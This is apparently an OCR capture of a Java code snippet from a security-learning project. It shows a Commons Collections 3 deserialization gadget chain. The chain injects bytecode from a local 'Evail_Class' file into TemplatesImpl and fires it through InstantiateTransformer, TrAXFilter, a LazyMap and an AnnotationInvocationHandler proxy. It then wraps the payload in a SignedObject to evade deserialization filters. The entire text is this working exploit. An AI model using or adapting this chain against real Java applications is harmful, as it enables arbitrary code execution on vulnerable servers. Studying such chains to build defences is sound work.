 ```plain
        //CC3

        TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));
        //E:\Java_project\Serialization_Learing\target\classes\Calc.class
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);
        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        InvocationHandler h = (InvocationHandler) cls.newInstance(Override.class,lazyMap);
        Map maproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
        Object o = cls.newInstance(Override.class,maproxy);


        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) o, kp.getPrivate(), Signature.getInstance("DSA"));
        signedObject.getObject();
    }
}
```
